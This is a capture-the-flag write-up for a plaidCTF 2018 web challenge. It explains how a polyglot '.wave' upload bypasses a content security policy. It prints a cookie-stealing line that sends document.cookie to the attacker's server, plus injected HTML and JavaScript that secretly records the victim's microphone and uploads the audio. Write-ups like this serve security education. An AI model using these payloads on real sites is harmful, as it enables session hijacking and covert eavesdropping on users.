 # idIoT: Action
*plaidCTF 2018 Web 200*


## Problem

Some people won't let any smart devices in their home at all. Some are cautious, do their research, and make an informed decision. This guy falls in neither category; he's a a downright idIoT. 

The idIoT uses this service called [clipshare](https://idiot.chal.pwning.xxx/); you can find his account [here](https://idiot.chal.pwning.xxx/user.php?id=3427e48e-a6eb-4323-aed4-3ce4a83d4f46) or here after you make an account. 

He was telling me the other day about how he has a Google Home next to his computer running at all times. He also told me that if you ask politely it will tell you the flag. However, while he'll look at anything you share, he closes it almost immediately if he doesn't seem like it'll interest him. Maybe we can look at his clips to find something to match his interests? 

(Flag format: PCTF{xxx} where xxx is some text composed of lower-case letters and underscores)

## Look up
We can write a new clip with out title, description and some audio. Audio can be uploaded, or can be recorded using our browser. After some simpletest, we can find 'Description' field allows us `HTML Tag Injection`, but not `<script>` becuase of its CSP.

![Tag injected](https://i.imgur.com/F4fv0PF.png)
![CSP](https://i.imgur.com/hvCZdyr.png)

Since CSP exists `script-src 'self'`, XSS shoud be able by uploading some scripts to clip and including it.

## Weak audio check and MIME type

Server refuses the fiel when its extension is not ended with `.wav/.wave/.mp3/.ogg/.web`. But it doesn't seems strictly check it. We can upload some corrupted audio files like this one!
![Is this real wav?](https://i.imgur.com/15mYPVI.png)

It considered as normal wave file since its magic number, but it also can be translated as following javascript.

```javascript
RIFF=1;
alert('test');
```

I've tried script injection with .wav and .mp3 files, but both of them didn't work. It couldn't pass the MIME type check. ![mpeg MIME is not executable](https://i.imgur.com/5wBeF6O.png)

So I googled about it then I can find a document that lists [default apache MIME types](https://svn.apache.org/repos/asf/httpd/httpd/trunk/docs/conf/mime.types)
![What is wave??](https://i.imgur.com/c5X5Dup.png)

We can see apache doesn't recognize `.wave` extension as `audio/*`, thus including `.wave` file like following allows to script execution.

```html
<script src="uploads/upload_5aeea228222b70.00604196.wave"></script>
```

## Get a flag
Two steps required to get a flag.

* Show admin's clips
* Record a response of Google Home.  

### Show clips of admin
Since we know how to execute javascript, stealing is easy. Various way to steal admin's clip.

```javascript
location.href = <your server> + "?ck=" + "document.cookie"
```

After we change our session to admin's session, we can see two clips.

First clip is

	Title; Thoughts on Google Home
	
	I got a Google Home recently, and I've been having a lot of fun with it!
		
and next one is
 
	Title; Nostalgia
	
	Has anyone else played Toaster Wars?
	Share me clips with 'spatulate' in the description and I'll give them a listen!
	
By the audio clip of first clip I mentioned, if we say "Hey Google, what is a flag?" to Google Home, it will answer the flag. So the next thing to do is record audio "Hey Google, what is a flag?" and write a description as 'spatulate' to Google Home listen it.

### Record from admin's account
We already know how to get a flag. But it has a problem. We can guess Google Home **speaks** the flag, then how can we get it? `js/main.js` has the answer. `main.js` has implementations to deal with this problem. 

![record, submit](https://i.imgur.com/if9YeMI.png)

If we reconstruct javascripts using those implementations of record and submit, we can write a new clip! But admin's account seems can't write a new clip, so we have to write it to our own account by chainging session.

So final payload is

Description field:

```html
spatulate
<form action="create.php" method="post" enctype="multipart/form-data" id="upload-form">
	<input type="text" name="title" value="answer"/>
	<input type="text" name="description" value="answer"/>
	<audio id="record-playback" controls></audio>
	<input type="submit" name="submit" value="submit" />
</form>
<script src="uploads/upload_5aeea228222b70.00604196.wave"></script>
```

Script in .wave:

```javascript
navigator.mediaDevices.getUserMedia({ audio: true })
	.then((stream) => {
	mediaRecorder = new MediaRecorder(stream, { mimeType: 'audio/webm' });
	mediaRecorder.start();
	let chunks = [];
	mediaRecorder.addEventListener("dataavailable", (e) => {th
		chunks.push(e.data);
		console.log(e.data);
	});
	mediaRecorder.addEventListener("stop", () => {
		mediaBlob = new Blob(chunks);
		document.cookie = "PHPSESSID=v3368khvdmn5pl8ea6qh5g3ke3";
	
		let uploadForm = document.getElementById("upload-form");
		let formData = new FormData(uploadForm);
	   	formData.append("audiofile", mediaBlob, "audio.webm");
	   	let f = fetch("create.php", {
			method: "POST",
			body: formData,
			credentials: "same-origin"
		});	
	})
	setTimeout(function() {
		mediaRecorder.stop();
	}, 15000);
});
```	

### Answer
Injected script will write a new clip named 'answer' with an audio reading flag :D

The flag is `PCTF{not_so_smart}`

